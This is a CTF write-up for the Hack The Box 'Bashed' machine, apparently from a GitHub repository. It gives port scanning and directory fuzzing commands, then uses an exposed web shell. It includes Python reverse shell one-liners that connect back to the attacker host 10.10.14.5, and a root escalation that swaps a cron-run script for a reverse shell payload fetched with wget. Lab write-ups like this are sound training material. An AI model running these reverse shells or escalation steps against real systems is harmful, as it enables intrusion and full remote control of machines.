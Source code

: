 # Bashed

**Machine ip:** 10.10.10.68

## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.68 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.68`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1ff38f3a-a5aa-4493-a119-fa3ad2067bf8)

+ Navigate to `http://10.10.10.68`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a21b3006-628d-4a28-ad8b-4e7cfa141a30)

+ Directory fuzzing:
```
feroxbuster -u http://10.10.10.68 -x html,php,json,js,sh,cgi,pl,docx,pdf,txt -w /usr/share/wordlists/dirb/common.txt --depth 2 --filter-status 200,403,404,500 -r --extract-links
```
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a24d471b-2314-4886-a94c-b7fb375d928e)

+ Check `http://10.10.10.68/dev/`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5fd4e705-edbc-413a-aea1-c21d4bb841fe)

+ Click one of the php files, and gain a semi-interactive web shell.
+ Cat user.txt

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a7c07f5a-dc65-41f9-983c-1aa0f5697877)

+ Get revershell:
+ `nc -lnvp 4444`
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

+ `python -c 'import pty; pty.spawn("/bin/bash")'`
+ `sudo -ll`
+ **www-data** user can run commands as **scriptmanager** user: `sudo -u scriptmanager /bin/bash`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c5a05271-ac94-4d4e-9dd7-418a80eec712)

## Privilege Escalation
+ `cd /`
+ `ls -la`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/896f8a81-478c-41a0-a6e9-5729b1894204)

+ **scripts** directory is interesting: `cd scripts`
+ test.txt file is owned by **root** but it is writable by **scriptmanager**.
+ `ls -la`
+ `cat test.py`
+ `cat test.txt`
+ `ls -la`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/66e2654b-e29e-40be-b014-7f4c4dcb3ad4)

+ The last access time of the `test.txt` file changes every minute. The script runs every minute.
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/df6a0cd2-5966-4fbb-91b8-5cad62124888)

+ Even `test.txt` file name is changed, exists `test.txt` the same file name each minute again.
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/49b004f3-46e8-42d6-b672-4765d0cd1df4)

There is a cron job or something like a background process which runs **test.py** script automatically.
Replace **test.py** file with our test.py file containing reverse shell in order to get reverse shell of root user or not.

+ Create `test.py` revershell payload file on your attack machine:
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

+ Start listener: `nc lnvp 5555`
+ Transfer it to target machine: `python3 -m http.server`
+ Download `wget 10.10.14.5:8000/test.py` and change the name.
+ Get the root shell:
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c1b923d8-5e44-4c00-b9ab-c0405253686a)


# References & Alternatives:
+ https://vvmlist.github.io/#bashed
+ https://0xdf.gitlab.io/2018/04/29/htb-bashed.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/bashed-writeup-w-o-metasploit
+ https://danishzia.medium.com/hackthebox-htb-bashed-walkthrough-ab402b9f4715
+ https://lastlistener.github.io/Walkthroughs--HackTheBox_Bashed_Walkthrough_and_Lessons.html
